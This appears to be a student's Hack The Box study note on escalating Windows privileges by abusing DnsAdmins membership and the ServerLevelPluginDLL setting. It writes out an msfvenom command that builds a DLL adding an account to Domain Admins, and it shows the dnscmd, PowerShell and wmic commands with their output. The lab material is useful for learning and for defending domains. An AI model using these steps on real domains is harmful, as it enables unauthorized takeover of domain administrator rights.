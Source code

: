 #Windows_Privesc 

---

- Members of this group have access to network DNS information

- Membership in the **DNS Admins group** can be leveraged to get root access using the following steps:
	- DNS records are centrally managed via RPC calls
	- **ServerLevelPluginDLL** allows us to load a **DLL** with zero verification using the `dnscmd` command, which we can then use to spawn a reverse shell
	- When a member of the **DNS Admins** group runs the `dnscmd` command the registry key `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` is populated
	- When the DNS service is restarted the **DLL** in this path will be loaded


## Leveraging DnsAdmins Access

- **Generating malicious DLL**: We can generate a malicious DLL using `msfvenom` as follows:
```shell-session
emi2024@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

**Loading DLL as Non-Privileged User**
```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

**Loading DLL as Member of DNSAdmins**

- To retrieve the members of the **DNS Admins** group we use the following command:
```powershell
Get-ADGroupMember -Identity DnsAdmin
```
and we would get something like this:
```powershell-session
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109    
```

=> the output above indicates the netadm user is part of the **DnsAdmins** user

- After confirming that `netadm` is part of the **DnsAdmins** group we can now load the custom **DLL**
```cmd-session
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

- To find a user's SID we use the following command:
```cmd-session
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```


